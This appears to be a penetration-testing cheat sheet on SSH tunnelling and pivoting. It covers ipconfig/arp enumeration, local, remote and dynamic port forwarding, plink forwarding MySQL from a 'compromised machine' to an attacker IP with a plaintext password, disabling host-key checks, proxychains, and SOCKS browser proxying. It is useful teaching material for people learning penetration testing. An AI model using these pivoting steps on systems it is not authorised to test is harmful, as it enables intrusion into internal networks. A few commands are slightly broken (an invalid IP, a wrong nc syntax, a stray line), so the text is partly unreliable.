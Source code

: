 # SSH Tunneling/Forwarding

## Check HTTPTunnel

* [https://github.com/larsbrinkhoff/httptunnel](https://github.com/larsbrinkhoff/httptunnel)
* first, create a local port forward between compromised machine and attacking machine
* second, create HTTPTunnel

## Ipconfig

* looking for machines that have at least THREE network interfaces (loopback, eth0, and eth1)
* these machines are connected to other networks, so use them to pivot

### Windows

```bash
ipconfig /all
route print
arp -a
```

### Linux

```bash
ifconfig
ifconfig -a
arp -a
```

## SSH Tunneling - Port forwarding on SSH

### Use Cases

* encrypt traffic that uses unencrypted protocols, like VNC, IMAP, IRC.
* on a public network and want to encrypt all your http traffic
* want to bypass firewall rules

### Local Port Forwarding

* make Facebook available on address localhost:8080

```bash
ssh -L 8080:www.facebook.com:80 localhost
```

* you can also forward ports like this

```bash
ssh username@<remote-machine> -L localport:target-ip:target-port
```

```bash
ssh [username@192.168.1.111](mailto:username@192.168.1.111) -L 5000:192.168.1.222:5000
```

now this port will be available on the localhost, go to

```bash
nc localhost:10000
```

### Remote Port Forwarding

* imagine that a compromised machine, and that machine has MYSQL running but it is only accessible for localhost
* can't access it because you have a really crappy shell, just forward that port to our attacking machine
* the steps are as following

```bash
# basic example
ssh <gateway> -R <remote port to bind>:<local host>:<local port>

#detailed example
# opens up port 1111 on Kali to point to port 22
# next, opens 1337 on Kali to point to 3306
ssh -R 1111:10.10.10.10:22 -R 1337:10.10.10.10:3306 kali@10.11.11.11

# if you do not have fully interactive shell
# use this to avoid prompts
ssh -R 1111:10.10.10.10:22 -R 1337:10.10.10.10:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.11.11 -i /tmp/id_rsa 
kali@10.11.0.4
```

* by the way, plink is a ssh-client for windows that can be run from the terminal
* the ip of the attacking machine is 111.111.111.111
* Step 1: on our compromised machine

```bash
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

* Step 2: check netstat on our attacking machine, should see something like this

```bash
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

* that means that we can connect to that port on the attacking machine from the attacking machine
* Step 3: connect using the following command

```bash
mysql -u root -p -h 127.0.0.1 --port=3307
```

### Dynamic port forwarding

* can be used to dynamically forward all traffic from a specific application
* with remote and local port forwarding you are only forwarding a single port
* can be a hassle if the target machine has 10 ports open that you want to connect to
* instead we can use a dynamic port forwarding technique
* set up the tunnel like this
* after it is set up do not run any commands in that session
* connect to the machine we want to pivot from

```bash
ssh -D 9050 [user@192.168.1.111](mailto:user@192.168.1.111)
```

* since proxychains uses 9050 by default (the default port for tor) configuring Proxychains is not needed
* to change the port do that in /etc/proxychains.conf

```bash
proxychains nc 192.168.2.222 21
```

* to supress all the logs from Proxychains, configure it in the config file

## Tunnel all HTTP/HTTPS Traffic Through SSH

* need two machines
* Machine1 - 111.111.1111.111 - the server that works as the proxy
* Machine2 - the computer with the web browser
* check out what the public IP address is, so that we know the IP address before and after so we can verify that it works
* on Machine2 we run

```bash
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111)
#or run with -N flag
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111) -N
```

* now go to

```bash
Firefox/settings/advanced/network and SOCKS 
add 127.0.0.1 and port 9999
```

* notice that this setup probably leaks DNS, so don't use it if  opsec is needed
* to fix the DNS-leak
* go to

```bash
about:config in firefox #(in the addressbar) 
#then look for 
network.proxy.socks_remote_dns #and switch it to TRUE
```

* now you can check [https://ipleak.net/](https://ipleak.net)
* it still says that we have WebRTC leaks, in order to solve this go to

```bash
about:config #and set the following to FALSE: 
media.peerconnection.enabled
```

## References

* This is a good video-explanation
* [https://www.youtube.com/watch?v=c0XiaNAkjJA](https://www.youtube.com/watch?v=c0XiaNAkjJA)
* [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)
* [http://ways2hack.com/how-to-do-pivoting-attack/](http://ways2hack.com/how-to-do-pivoting-attack/)
